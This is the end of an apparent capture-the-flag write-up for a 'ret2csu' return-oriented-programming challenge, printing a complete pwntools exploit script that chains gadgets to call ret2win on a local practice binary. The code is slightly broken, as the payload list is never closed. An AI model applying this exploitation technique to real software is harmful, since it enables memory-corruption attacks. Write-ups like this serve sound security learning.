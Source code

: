 ```python
        ret2win
])
```

And what do ya know, it works! This was a fun challenge that taught me about a cool ROP technique. Below is the full exploit. 

```python
from pwn import *

elf = context.binary = ELF('ret2csu')
p = elf.process()

offset = 40

pop_gadgets = 0x40069a
mov_gadgets = 0x400680
ret2win = 0x400510
fini_pointer = 0x00600e48
pop_rdi = 0x00000000004006a3

payload = flat([
        offset * 'a',
        pop_gadgets,
        0x0,
        0x1,
        fini_pointer,
        0xdeadbeefdeadbeef,
        0xcafebabecafebabe,
        0xd00df00dd00df00d,
        mov_gadgets,
        0x0, 
        0x0,
        0x0,
        0x0,
        0x0,
        0x0,
        0x0,
        pop_rdi,
        0xdeadbeefdeadbeef,
        ret2win

p.sendline(payload)
p.interactive()
```